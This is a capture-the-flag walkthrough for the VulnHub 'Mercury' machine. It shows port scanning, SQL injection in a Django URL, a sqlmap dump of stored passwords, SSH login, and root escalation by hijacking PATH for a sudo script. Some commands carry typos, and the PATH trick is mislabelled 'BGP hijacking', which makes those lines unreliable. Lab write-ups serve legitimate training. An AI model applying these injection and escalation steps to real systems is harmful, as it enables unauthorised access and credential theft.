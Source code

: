 # Mercury

You can set up this machine with a ```BRIDGED ADAPTER``` or a ```NAT NETWORK``` !

Start by enumerating the system !
```
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -v 192.168.1.20 -oG allPorts
```

Let's find out all services and versions
```
nmap -sC -sV -p22,8080 192.168.1.20 -oN targeted
```
 
Can't do anything with the ```22``` port, but the scan shows that a ```robot.txt``` file exists in the ```8080``` port !
```
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
| http-robots.txt: 1 disallowed entry
|_/
```

In the ```http://192.168.1.20:8080/robots.txt``` we have this output !
```
User-agent: * 
Disallow: /
```

There's no a specific directory so let's try with ```*```
```
curl "http://192.168.1.20:8080/*" -k
```
> You can enter the link on your browser too

We have a Django problem... But that shows useful information !
```
[name='index']
robots.txt [name='robots']
mercuryfacts/
```

There's a ```/mercuryfacts/``` directory ! let's see it
```
curl http://192.168.1.20:8080/mercuryfacts/ -k
```
> Or just in your browser ```http://192.168.1.20:8080/mercuryfacts/```

We have got the main page ! There's so other linked pages 
```
Mercury Facts: Load a fact -> http://192.168.1.20:8080/mercuryfacts/1/
Website Todo List: See List -> http://192.168.1.20:8080/mercuryfacts/todo
```

In the ```Todo List``` page, we see that the page use ```mysql``` !
```
Still todo:
    ...
    Use models in django instead of direct mysql call
    ...
```

At the same time, in the ```Mercury Facts``` page, the link seems to be a mysql query
```
http://192.168.1.20:8080/mercuryfacts/1/
```
> The **/1/** argument, seems to exploitable !

Let's try some SQL injection : ```1 or 1=1-- -``` !
```
curl "http://192.168.1.20:8080/mercuryfacts/1%20or%201=1--%20-/" -k
```
> Url-encode de blank spaces replacing ``` ``` by ```%20``` !

The following oupt confirms it's exploitable !
```
Fact id: 1 or 1=1-- -. (('Mercury does not have any moons or rings.',), ('Mercury is the smallest planet.',), ('Mercury is the closest planet to the Sun.',), ('Your weight on Mercury would be 38% of your weight on Earth.',), ('A day on the surface of Mercury lasts 176 Earth days.',), ('A year on Mercury takes 88 Earth days.',), ("It's not known who discovered Mercury.",), ('A year on Mercury is just 88 days long.',))
```

So, let's discover Databases and tables !
```
slqmap -u http://192.168.1.20/mercuryfacts/ --dbs --batch
```

There's a ```mercuty``` database !
```
available databases [2]:
[*] information_schema
[*] mercury
```

Let's see all tables from this database
```
sqlmap -u http://192.168.1.20/mercuryfacts/ -D mercury --tables --batch
```

There's a ```users``` table !
```
[2 tables]
+-------+
| facts |
| users |
+-------+
```

Check its content !
```
sqlmap -u http://192.168.1.20/mercuryfacts/ -D mercury -T users --dump --batch
```

Save the columns for possible ssh logins !
```
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

Connect use ```webmaster``` via ```ssh``` to the server !
```
ssh webmaster@192.168.1.20
```
> Enter the password !

We are in !
```
webmaster@mercury:~$ whoami
webmaster
```

See the ```user_flag``` at ```/home/webmaster/user_flag.txt``` !
```
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

Let's see if we have sudo privileges!
```
sudo -l
```
> No sudo privileges...

In the home directory, there's an interessting directory ```mecury_proj```, let's enumerate it !
```
webmaster@mercury:~$ cd mercury_proj/
webmaster@mercury:~/mercury_proj$ ls
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
```

We find useful information in the```notes.txt``` file !
```
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

There's a user called ```linuxmaster```, and its password is encoded in ```base64```
```
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
```

We've got the ```linuxmaster``` credential !
```
user: linuxmaster
pass: mercurymeandiameteris4880km
```

let's change of user !
```
su linuxmaster
```
> Enter the decoded password

Great, we're a ```linuxmaster``` !
```
linuxmaster@mercury:~$ whoami
linuxmaster
```

Check for sudo privileges
```
sudo -l
```

interesting privileges !
```
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

let's analyse the ```/usr/bin/check_syslog.sh``` script
```
#!/bin/bash
tail -n 10 /var/log/syslog
```

The script shows the ```tail``` command in a relative path. We are going to use a ```BGP hijacking``` attack ! For that, let's change some Environment Variables !
> in /home/linuxmaster/
```
ln -s /usr/bin/vim tail
export PATH=$(pwd):$PATH
```
Let's execute the script !
```
sudo --perserve-env=PATH /usr/bin/checkgid_syslog.sh
```

This last command will show up a ```vim```, enter this command in the footer !
```
:!/bin/bash
```

We got to root !
```
root@mercury:/home/linuxmaster# whoami
root
```

Find the flag in ```/root/root_flag.txt```
```
...
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

Machine link: [VulnHub](https://www.vulnhub.com/entry/the-planets-mercury,544/)

